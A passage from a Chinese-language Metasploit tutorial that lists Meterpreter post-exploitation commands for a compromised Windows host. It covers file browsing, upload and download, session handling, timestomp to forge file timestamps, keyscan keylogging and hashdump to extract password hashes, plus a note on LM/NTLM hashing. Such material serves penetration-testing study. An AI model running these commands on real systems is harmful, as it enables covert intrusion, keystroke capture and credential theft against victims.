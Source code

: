 这些命令比较简单，但却很重要，就不截图详细说明了

+ getwd 或者pwd # 查看当前工作目录
+ ls #显示当前目录下的内容
+ cd #切换目录
+ search -f *.txt -d c:\ # 搜索文件 -f 指定文件类型，-d 指定在哪个目录下搜索
+ cat c:\test\testpasswd.txt # 查看文件内容
+ upload /tmp/hack.txt C:\test # 上传hack.txt文件到目标机C盘test目录下
+ download c:\test.txt/root # 下载目标主机test.txt文件到本机root目录下
+ edit c:\1.txt #编辑或创建文件 没有的话，会新建文件
+ rm C:\lltest\hack.txt
+ mkdir lltest2 #只能在当前目录下创建文件夹
+ rmdir lltest2 #只能删除当前目录下文件夹
+ getlwd 或者 lpwd #操作攻击者主机 查看当前目录
+ lcd /tmp #操作攻击者主机 切换目录



## 四：其他常用命令
### 1：session命令
session 命令可以查看已经成功获取的会话

可以使用session -i 连接到指定序号的meterpreter会话已继续利用

### 2：timestomp伪造时间戳
时间戳的解释[http://blog.csdn.net/qq_41651465/article/details/80005362](http://blog.csdn.net/qq_41651465/article/details/80005362)

timestomp C:// -h #查看帮助

timestomp -v C://2.txt #查看时间戳

timestomp C://2.txt -f C://1.txt #将1.txt的时间戳复制给2.txt

### 3：键盘记录器功能keyscan
命令：

keyscan_start 开启记录目标主机的键盘输入

keyscan_dump 输出截获到的目标键盘输入字符信息

keyscan_stop 停止键盘记录

### 4：系统账号密码获取
> Windows系统存储哈希值的方式一般是LM、NTLM或者NTLMv2。
>
> 在明文密码输入后系统会将密码转为哈希值；由于哈希值的长度限制，将密码切分为7个字符一组的哈希值；
>
> 以password123456密码为例，哈希值会以 【{passwor}{d123456}】每个花括号是一组哈希值共两组，所以攻击者只要破解7个字符一组的密码，而不是原始的14个字符，而NTLM存储方式和密码长度无关，密码将作为整体哈希值存储。
>

①：命令：hashdump
